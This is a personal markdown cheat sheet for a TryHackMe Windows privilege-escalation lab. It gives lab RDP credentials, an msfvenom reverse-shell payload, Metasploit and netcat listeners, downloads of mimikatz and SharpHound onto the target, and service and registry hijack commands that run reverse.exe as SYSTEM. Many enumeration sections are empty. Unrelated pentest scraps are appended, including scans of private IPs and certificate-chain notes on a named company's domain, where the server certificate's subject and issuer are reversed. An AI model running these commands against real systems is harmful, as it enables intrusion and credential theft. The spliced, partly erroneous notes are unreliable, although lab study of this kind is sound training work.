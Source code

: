# 1. TEST SETUP/ENVIRONMENT

## TRYHACKME
```
https://tryhackme.com/room/windows10privesc

VULENRABLE VM ACCESS
xfreerdp /u:user /p:password321 /cert:ignore /v:10.10.63.26 

PAYLOAD CREATION
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.18.5.137 LPORT=1234 -f exe -o reverse.exe

LISTENER SETUP (OPTION1)
msfconsole
use exploit/multi/handler 
set payload windows/x64/shell_reverse_tcp
set lhost 10.18.5.137
set lport 1234
run

LISTENER SETUP (OPTION2)
nc -nlvp 1234

COPY FROM KALI TO WINDOWS - USING SMB SERVER & COPY
python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
copy \\10.18.5.137\kali\reverse.exe C:\PrivEsc\reverse.exe
copy \\192.168.174.132\kali\mimikatz.exe C:\PrivEsc\mimikatz.exe

COPY FROM KALI TO WINDOWS - USING PYTHON WEB SERVER & POWERSHELL
(New-Object System.Net.WebClient).DownloadFile("http://192.168.174.132:8000/mimikatz.exe", "C:\temp\mimikatz.exe")
(New-Object System.Net.WebClient).DownloadFile("http://192.168.174.132:8000/SharpHound.exe", "C:\temp\SharpHound.exe")

COPY FROM KALI TO LINUX - USING PYTHON WEB SERVER & WGET
cd /var/www/html/priv_esc
python3 -m http.server
wget http://10.18.5.137:8000/shell.elf
```

## TOOLS
```
VICTIM WINDOWS 

accesschk.exe
AdminPaint.lnk
CreateShortcut.vbs
lpe.bat
plink.exe
PowerUp.ps1
PrintSpoofer.exe
Procmon64.exe
PsExec64.exe
reverse.exe
RoguePotato.exe
savecred.bat
Seatbelt.exe
SharpUp.exe
winPEASany.exe


ATTACK MACHINE KALI 
reverse.exe
```



# 2. MANUAL ENUMERATION 

## USERS
```

```

## HOSTNAME
```
hostname
```

## OS VERSION & ARCHITECTURE
```

```

## RUNNING PROCESS & SERVICES
```

```

## NETWORK INFORMATION 
```

```

## FIREWALL STATUS AND RULES
```

```

## SCHEDULED TASKS
```

```

## INSTALLED APPS & PATCH LEVELS
```

```

## READABLE/WRITABLE FILES AND DIRECTORIES
```

```

## UNMOUNTED DISKS
```

```

## DEVICE DRIVERS AND KERNEL MODULES
```

```

## BINARIES THAT AUTO ELEVATE
```

```

# 3. AUTOMATED ENUMERATION 

## WINPEAS
```

```




# 4. MISCONFIGURATIONS/VULNERABILITIES EXPLOITATION 

## CATEGORY "SERVICES" - INSECURE SERVICE PERMISSIONS
```
.\winPEASany.exe servicesinfo (powershell)
winPEASany.exe servicesinfo (cmd)

accesschk.exe /accepteula -uwcqv user daclsvc
sc qc daclsvc
sc config daclsvc binpath="\"C:\PrivEsc\reverse.exe\""
sc qc daclsvc
sc start daclsvc
```

## CATEGORY "SERVICES" - UNQUOTED SERVICE PATHS
```
.\winPEASany.exe servicesinfo (powershell)
winPEASany.exe servicesinfo (cmd)

sc qc unquotedsvc
accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service"
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"

sc start unquotedsvc
```

## CATEGORY "SERVICES" - WEAK REGISTRY PERMISSIONS
```
.\winPEASany.exe servicesinfo (powershell)
winPEASany.exe servicesinfo (cmd)

sc qc regsvc
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
regedit
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
net start regsvc
```













zenmap
Kali Linux
vmware player
Kali Linux 
nessus
burpsuite
lightsoot
greenshot
7-zip
notepad++
visul studio code
wireshark

sslscan 172.16.3.17:3389

SMB Signing not required
enum4linux -a 172.16.3.13   

postgres pentest
openvpn server 1194 pentest

SSL CERTIFICATE CANNOT BE TRUSTED
https://shagihan.medium.com/what-is-certificate-chain-and-how-to-verify-them-be429a030887

└─$ curl -I https://shhq.datalines.com.sg/index.jsp



Root CA
Subject: name of the root CA
Issuer: name of the root CA


Intermediate CA
Subject: Name of the intermediate CA
Issuer: Name of the root CA


Server Certificate
Subject: Name of the certificate CA
Issuer: Name of the intermediate CA




USERTrust RSA Certification Authority
Sectigo RSA Domain Validation Secure Server CA
*.datalines.com.sg



Root CA
Subject: USERTrust RSA Certification Authority
Issuer: USERTrust RSA Certification Authority


Intermediate CA
Subject: Sectigo RSA Domain Validation Secure Server CA
Issuer: USERTrust RSA Certification Authority


Server Certificate
Subject: Sectigo RSA Domain Validation Secure Server CA
Issuer: *.datalines.com.sg







